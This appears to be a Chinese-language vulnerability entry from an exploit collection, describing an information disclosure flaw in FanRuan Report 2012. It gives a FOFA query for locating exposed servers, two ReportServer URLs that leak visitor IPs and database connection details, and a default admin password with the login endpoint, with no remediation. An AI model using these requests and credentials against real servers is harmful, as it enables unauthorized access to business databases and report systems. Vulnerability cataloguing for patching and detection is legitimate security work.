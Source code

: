 # 帆软报表 2012 信息泄露漏洞

## 漏洞描述

帆软报表 2012 存在信息泄露漏洞，通过访问特定的Url获取部分敏感信息

## 漏洞影响

```
帆软报表 2012
```

## FOFA

```
body="down.download?FM_SYS_ID"
```

## 漏洞复现

获取登录报表系统的IP

```plain
http://xxx.xxx.xxx.xxx/ReportServer?op=fr_server&cmd=sc_visitstatehtml&showtoolbar=false
```



![image-20220209113026424](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091130468.png)



数据库信息泄露

```plain
http://xxx.xxx.xxx.xxx/ReportServer?op=fr_server&cmd=sc_getconnectioninfo
```



![image-20220209113041021](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091130098.png)

后台默认口令 admin/123456

```plain
/ReportServer?op=fr_auth&cmd=ah_login&_=new%20Date().getTime()
```